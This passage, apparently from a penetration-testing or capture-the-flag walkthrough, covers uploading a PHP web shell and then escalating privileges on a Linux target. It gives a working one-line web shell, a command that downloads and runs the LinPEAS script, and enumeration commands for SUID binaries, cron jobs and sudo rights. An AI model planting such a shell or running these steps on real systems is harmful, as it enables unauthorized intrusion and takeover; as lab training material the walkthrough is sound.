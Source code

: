 ### Method 2: Web Shell Upload (if available)

1. **Create PHP web shell**:
   ```php
   <?php system($_GET['cmd']); ?>
   ```

2. **Upload shell through vulnerable function**
3. **Execute commands**:
   ```
   http://<target_ip>/uploads/shell.php?cmd=id
   ```

## Privilege Escalation

### Basic Enumeration

1. **Check current user privileges**:
   ```bash
   id
   sudo -l
   ```

2. **Automated enumeration**:
   ```bash
   # Download LinPEAS
   curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
   chmod +x linpeas.sh
   ./linpeas.sh
   ```

### Privilege Escalation Vectors

1. **SUID Binaries**:
   ```bash
   find / -perm -u=s -type f 2>/dev/null
   ```

2. **Cron Jobs**:
   ```bash
   cat /etc/crontab
   ls -la /etc/cron*
   ```

3. **Kernel Exploits**:
   ```bash
   uname -a
   # Search for kernel exploits based on version
   ```

4. **Sudo Rights**:
   ```bash
   sudo -l
   # Exploit specific sudo permissions using GTFOBins
   ```
